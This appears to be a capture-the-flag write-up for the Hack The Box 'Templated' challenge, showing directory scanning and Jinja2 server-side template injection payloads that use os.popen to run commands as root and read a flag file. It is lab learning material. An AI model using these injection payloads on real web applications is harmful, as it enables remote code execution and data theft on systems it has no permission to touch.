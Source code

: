 # Templated

This is a write up to the Hack The Box challenge Templated which exploits vulnerabilities in SSTI (server side template injection)

The front page of the site has this.

![front page](./frontpage.PNG)

This meant the page was templated using flask web frame work and jinja2 web templating.

To start I initially wanted to check if I could dirsearch some of the pages to see if there was a page i could go strait to aides from the home page.

```bash
python3 dirsearch.py -u http://134.209.190.86:32661/
 ```
This returned every site as 200 OK.

When visiting one of the pages it returned it as a 404, this is pretty intresting.
This means the 404 pages are possibly being templated.

A quick search on the internet meant we can find some exploits on flask and jinja2.

This is the link found: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

In this challenge we could edit the URL so I went down the the **RCE Bypassing as much as i possibly can** heading and found this command:
```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
This will return the current user on the page.

![Response to edited url](./URL-change-response.PNG)

Wow! we are root!

now try this command:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -a').read()}}
```
![Response to edited url second time](./URL-Change-Response2.PNG)

looking at the files returned, we can just cat flag.txt as that will contain our flag using:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```

which will return a flag where the page name normall is.

